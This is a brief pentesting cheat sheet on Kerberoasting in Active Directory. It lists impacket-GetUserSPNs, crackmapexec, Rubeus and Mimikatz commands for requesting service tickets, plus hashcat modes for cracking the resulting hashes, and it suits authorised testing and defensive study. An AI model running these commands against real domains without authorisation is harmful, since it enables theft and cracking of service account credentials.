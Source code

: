# Kerberoasting
Kerberoasting takes advantage of how service accounts leverage Kerberos authentication with Service Principal Names (SPNs). By default, all standard domain users can request a copy of all service accounts STs (with SPN value set) along with their correlating password hashes.

Requirements:
* User with creds
* There need to be accounts with SPN set

## Remote
`impacket-GetUserSPNs -dc-ip <IP> '<DOMAIN>/<USER>:<PASS>' -request`
`crackmapexec ldap <IP> -u '<USER>' -p '<PASS>' --kerberoasting <OUTPUT.TXT>`

## Local
`Rubeus.exe kerberoast`
`Mimikatz`

## Hashcat Mode
hashcat -m 13100 etype 23
hashcat -m 19600 etype 17
hashcat -m 19700 etype 18